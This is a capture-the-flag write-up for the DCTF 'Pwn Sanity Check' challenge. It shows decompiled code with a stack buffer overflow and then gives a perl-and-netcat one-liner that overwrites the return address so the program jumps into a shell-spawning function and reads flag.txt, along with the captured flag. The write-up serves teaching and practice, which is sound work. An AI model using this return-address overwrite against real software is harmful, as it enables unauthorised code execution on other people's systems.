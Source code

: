 Challenge: Pwn Sanity Check
<br>
Points: 100
<br>
Category: Pwn
<br>
Objective: Find the flag on the server with the help of a given file
<br>
Process to find the flag: So first of all I opened the given file on Ghidra and saw this.
```
void vuln(void)
{
  char local_48 [60];
  int local_c;
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
void shell(void)
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
  ```

To solve this we needed a python script, which would skip all the basic parameters and get us the flag.
So this is the python script that we wrote
```python
(perl -e 'print "\xdb\x06\x40\x00\x00\x00\x00\x00"x"32"."\n"';echo "cat flag.txt")|nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```
So basically the address the computer will go to after the function is right after the area we are reading data into. 
So we just overwrite the address and the data that is being repeated 32 times is the address.
The result of this command is 
 
The flag: dctf{Ju5t_m0v3_0n}

